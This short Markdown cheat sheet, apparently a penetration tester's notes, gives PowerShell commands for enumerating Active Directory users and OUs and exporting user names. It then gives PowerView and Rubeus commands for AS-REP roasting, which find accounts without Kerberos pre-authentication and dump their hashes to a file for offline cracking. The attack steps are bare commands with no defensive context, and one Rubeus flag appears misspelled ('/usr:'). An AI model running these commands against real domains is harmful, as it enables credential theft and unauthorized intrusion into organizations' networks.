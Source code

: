 ## Get User info in Active Directory
```
Get-ADUser -Filter *
```

```
Get-ADOrganizationalUnit -Filter *
```

```
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt
```
## As-REP Roasting
- First Find User with Keberos No_Preauthentication
```
. .\PowerView.ps1
```
```
Get-DomainUser | Where-Object { $_.useraccountcontrol -like "*DONT_REQ_PREAUTH"}
```
```
.\Rubeus.exe asreproast /usr:johnny /outfile:file.txt
```
